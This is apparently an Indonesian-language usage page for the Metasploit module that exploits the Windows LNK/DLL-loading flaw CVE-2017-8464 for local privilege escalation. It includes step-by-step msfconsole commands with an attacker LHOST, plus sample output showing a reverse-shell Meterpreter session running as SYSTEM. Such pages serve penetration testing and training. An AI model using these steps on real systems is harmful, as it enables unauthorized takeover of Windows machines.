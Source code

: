 # cve_2017_8464_lnk_lpe

Modul ini mengeksploitasi kerentanan dalam penanganan file Shortcut Windows (`.LNK`) yang memuat ikon dinamis, di mana ikon tersebut dimuat dari sebuah `DLL` berbahaya.

Kerentanan ini merupakan varian dari `MS15-020` (`CVE-2015-0096`). File `LNK` yang dibuat mirip, namun terdapat tambahan `SpecialFolderDataBlock`. `ID` folder yang disetel dalam `SpecialFolderDataBlock` ini diarahkan ke `Control Panel`. Ini sudah cukup untuk melewati daftar putih (`whitelist`) `CPL`.

Bypass ini dapat digunakan untuk menipu Windows agar memuat file `DLL` sewenang-wenang (`arbitrary DLL`).

Opsi `PATH` harus merupakan path absolut ke direktori yang dapat ditulisi dan diindeks untuk pencarian. Jika `PATH` tidak ditentukan, modul secara default akan menggunakan `%USERPROFILE%`.

## Penulis
- Uncredited
- [Yorick Koster](https://github.com/ykoster)
- [Spencer McIntyre](https://github.com/zerosteiner)

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2017_8464_lnk_lpe
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session type: meterpreter. This module works with: .
[*] Generating LNK file to load: C:\Users\admin\LyCvVvdEkbJVUEfa.dll
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Deleted C:\Users\admin\LyCvVvdEkbJVUEfa.dll
[+] Deleted C:\Users\admin\CAkoGlgdwbVztjah.lnk
[*] Meterpreter session 8 opened (192.168.1.11:4444 -> 192.168.1.53:49175) at 2025-05-17 05:18:06 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

Referensi

- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/cve_2017_8464_lnk_lpe/)
